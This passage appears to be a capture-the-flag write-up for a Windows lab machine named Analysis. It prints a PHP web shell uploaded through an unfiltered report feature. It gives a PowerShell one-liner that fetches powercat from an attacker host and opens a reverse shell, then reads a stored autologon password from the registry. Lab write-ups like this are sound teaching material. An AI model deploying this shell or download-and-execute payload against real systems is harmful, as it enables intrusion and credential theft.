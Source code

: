 ![Untitled12](https://github.com/g1vi/AllTheWriteUps/assets/120142960/26d88006-b2a5-4aea-a071-0123e96cc73e)

Once inside the web application, we can upload a PHP reverse shell by abusing the SOC report feature, since there is no upload filter in place. The shell used is this one:
```php
<!-- Simple PHP backdoor by DK (http://michaeldaw.org) -->

<?php

if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}

?>

Usage: http://target.com/simple-backdoor.php?cmd=cat+/etc/passwd

<!--    http://michaeldaw.org   2006    -->
```
Which can be found in Kali location `/usr/share/webshells/php/simple-backdoor.php`. Just upload the file and inspect the traffic with Burpsuite. The HTTP response contains the upload path.

![Untitled13](https://github.com/g1vi/AllTheWriteUps/assets/120142960/c7a9daac-8b9c-4949-8f92-36ff5f71502f)

In fact, the upload path is `/dashboard/uploads/simple.php`<br>
<br>
Use this PHP shell to send a reverse shell to our Kali machine with `powercat`. Serve `powercat.ps1` with a Python HTTP server, then download and execute from memory using powershell `downloadstrings`. The payload to use is:
```markdown
cmd=powershell iex(new-object net.webclient).downloadstring('http://<kali ip>/powercat.ps1');powercat -c <kali ip> -p 1919 -e cmd
```
Remember to URL encode to avoid problematic characters in the URL.

![Untitled14](https://github.com/g1vi/AllTheWriteUps/assets/120142960/baa947db-d5e8-456d-a1fd-ef3037cd986d)

A reverse shell is received on port 1919. Although it is not valid to dump user flag, we can enumerate the system from it.
```markdown
> systeminfo

Nom de l'hôte:                              DC-ANALYSIS
Nom du système d'exploitation:              Microsoft Windows Server 2019 Standard
Version du système:                         10.0.17763 N/A version 17763
Type du système:                            x64-based PC
```
After enumeration, we find out the password of user `jdoe` is configured in the winlogon registry key. We retrieve it by means of a registry query.
```markdown
> reg query "hklm\software\microsoft\windows nt\currentversion\winlogon"

HKEY_LOCAL_MACHINE\software\microsoft\windows nt\currentversion\winlogon
    AutoRestartShell    REG_DWORD    0x1
    Background    REG_SZ    0 0 0
    CachedLogonsCount    REG_SZ    10
    DebugServerCommand    REG_SZ    no
    DefaultDomainName    REG_SZ    analysis.htb.
    DefaultUserName    REG_SZ    jdoe
    DisableBackButton    REG_DWORD    0x1
    EnableSIHostIntegration    REG_DWORD    0x1
```